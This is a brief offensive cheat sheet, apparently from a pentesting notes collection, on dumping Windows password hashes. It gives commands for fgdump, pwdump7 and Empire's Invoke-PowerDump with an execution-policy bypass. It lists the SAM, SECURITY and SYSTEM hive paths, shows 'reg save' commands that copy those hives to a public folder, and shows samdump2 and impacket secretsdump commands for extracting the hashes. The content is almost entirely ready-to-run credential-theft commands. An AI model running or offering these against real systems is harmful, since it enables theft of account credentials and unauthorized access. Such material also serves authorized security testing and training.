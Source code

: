 # dump SAM SYSTEM

## [foofus.net/fgdump](http://foofus.net/goons/fizzgig/fgdump/fgdump-usage.htm) | [tarasco.org/pwdump7](https://www.tarasco.org/security/pwdump\_7/)

```bash
> fgdump.exe

> pwdump7.exe
```

## [EmpireProject/Empire/dump.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1)

```bash
> powershell.exe -exec bypass -Command "& {Import-Module .\Invoke-PowerDump.ps1; Invoke-PowerDump}"
```

## manually

```bash
# actual location
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SECURITY
C:\Windows\System32\config\SYSTEM
# other locations
C:\Windows\System32\config\RegBack
C:\Windows\Repair

reg save hklm\sam c:\Users\Public\ksam
reg save hklm\system c:\Users\Public\ksystem
reg save hklm\security c:\Users\Public\ksecurity

# on kali
samdump2 ksystem ksam
impacket-secrectsdump -sam ksam -security ksecurity -system ksystem LOCAL
```
